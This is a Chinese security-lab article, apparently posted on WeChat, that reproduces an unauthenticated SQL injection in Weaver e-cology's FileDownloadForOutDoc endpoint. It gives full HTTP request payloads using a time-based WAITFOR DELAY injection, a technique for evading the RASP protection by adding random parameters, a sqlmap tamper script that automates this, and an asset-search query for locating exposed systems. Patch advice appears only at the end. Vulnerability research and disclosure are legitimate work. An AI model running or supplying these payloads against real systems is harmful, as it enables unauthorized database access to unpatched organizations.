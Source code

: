 #  【漏洞复现】泛微e-cology 前台未授权sql注入

原创 请君江南扫落花  [ 暗魂攻防实验室 ](javascript:void\(0\);)

**暗魂攻防实验室** ![]()

微信号 anhunsec-red

功能介绍 专注于网络空间安全、红蓝攻防对抗、渗透测试等技术研究

____

___发表于_

收录于合集 #漏洞复现 10个

**点击蓝字**![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093502.png)
**关注我们**

![]()

  

  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093503.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093504.png)
**微信搜一搜**![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093505.png)
暗魂攻防实验室

## 漏洞介绍

泛微e-cology是一款由泛微网络科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公。

泛微e-cology FileDownloadForOutDoc
未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。

## 影响版本

部分e-cology 8且补丁版本<10.58.0

部分e-cology 9且补丁版本<10.58.0

  

## 资产测绘

app="泛微-协同商务系统"

  

## 漏洞复现

1.访问泛微OA业务系统

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093506.png)

2.检测payload

  *   *   *   *   *   *   *   *   * 

    
    
    POST /weaver/weaver.file.FileDownloadForOutDoc HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36Content-Length: 45Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip, deflateConnection: close  
    fileid=3+WAITFOR+DELAY+'0:0:5'&isFromOutImg=1

3.由于泛微OA启用了RASP，同一个请求执行两次会被拦截，所以需要在请求包中添加随机参数；下面是RASP的介绍

RASP是Runtime Application Self-
Protection（运行时应用自我保护）的缩写，是一种用于保护应用程序免受攻击的安全技术。它是在应用程序运行时进行安全检测和保护的一种方法，可以在应用程序本身内部或与应用程序紧密集成的组件中实现。

  *   *   *   *   *   *   *   *   * 

    
    
    POST /weaver/weaver.file.FileDownloadForOutDoc HTTP/1.1Host: ip:portUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36Content-Length: 45Content-Type: application/x-www-form-urlencodedAccept-Encoding: gzip, deflateConnection: close  
    fileid={random}+WAITFOR+DELAY+'0:0:5'&isFromOutImg=1

4.加载tamper脚本进行注入

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    import randomfrom lib.core.enums import PRIORITY  
    __priority__ = PRIORITY.HIGH  
      
    def tamper(payload, **kwargs):  res = ""  ran = random.randint(1,2**20)  res = str(ran)+payload  return res

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093508.png)

## 修复建议

目前官方已发布安全补丁，建议受影响用户尽快将补丁版本升级至10.58及以上。

https://www.weaver.com.cn/cs/securityDownload.asp#

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093509.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093510.png)

●[浅谈两种复现方式实现PDF_XSS](http://mp.weixin.qq.com/s?__biz=MzkyMjE1NzQ2MA==&mid=2247487941&idx=1&sn=3ae42f268164ca46de5eb5c5d3f841bb&chksm=c1f9f93ef68e702824548e6882a335a946fbfcd84f8e697744ff1b21da4d86c53178129140bd&scene=21#wechat_redirect)

●[anhunsec_redteam_V2.5
正式版红队渗透系统简介](http://mp.weixin.qq.com/s?__biz=MzkyMjE1NzQ2MA==&mid=2247487905&idx=1&sn=e15c3473d01e3c3df522e3edcf81f198&chksm=c1f9f95af68e704ccfd7daa07e310a2de04cb741d3b946a3321c2c4eb7ea062928495b9fc063&scene=21#wechat_redirect)

●[一文读懂面试官都在问的shiro漏洞](http://mp.weixin.qq.com/s?__biz=MzkyMjE1NzQ2MA==&mid=2247487895&idx=1&sn=f3b1e70ae912d804c4ae6d38e3d4c728&chksm=c1f9f96cf68e707aafebbd1822d9d83bb316d5f7c26fe120576eca24f15e38c09ba0e6c7b47a&scene=21#wechat_redirect)

●[记一次小程序渗透测试](http://mp.weixin.qq.com/s?__biz=MzkyMjE1NzQ2MA==&mid=2247487893&idx=1&sn=2ab5b85f426c11767045e54d193157f8&chksm=c1f9f96ef68e70781bce82144f65db363f28507add488da1b0c34c4c3581094ecfad51933e38&scene=21#wechat_redirect)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093511.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093512.png)微信搜一搜![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093513.png)暗魂攻防实验室

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

